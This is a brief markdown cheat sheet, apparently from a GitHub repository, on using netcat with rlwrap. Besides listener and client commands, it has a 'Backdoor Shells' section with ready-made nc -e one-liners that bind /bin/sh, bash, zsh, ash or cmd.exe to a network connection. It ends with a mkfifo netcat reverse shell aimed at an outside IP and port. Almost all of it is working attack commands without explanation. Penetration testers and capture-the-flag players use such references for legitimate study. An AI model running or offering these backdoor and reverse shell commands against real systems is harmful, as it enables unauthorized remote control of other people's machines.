 ## Fundamentals:

Connect to a netcat client:
- rlwrap nc [IP Address] [port]

Connect to a netcat Listener:

- rlwrap nc -lvp [Localport]

More info on rlwrap: https://linux.die.net/man/1/rlwrap

## Backdoor Shells: 

Linux: 

- rlwrap nc [Your IP Address] -e /bin/sh 
- rlwrap nc [Your IP Address] -e /bin/bash
- rlwrap nc [Your IP Address] -e /bin/zsh
- rlwrap nc [Your IP Address] -e /bin/ash


Windows: 

- rlwrap nc -lv [localport] -e cmd.exe

Linux netcat reverse shell: 

- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f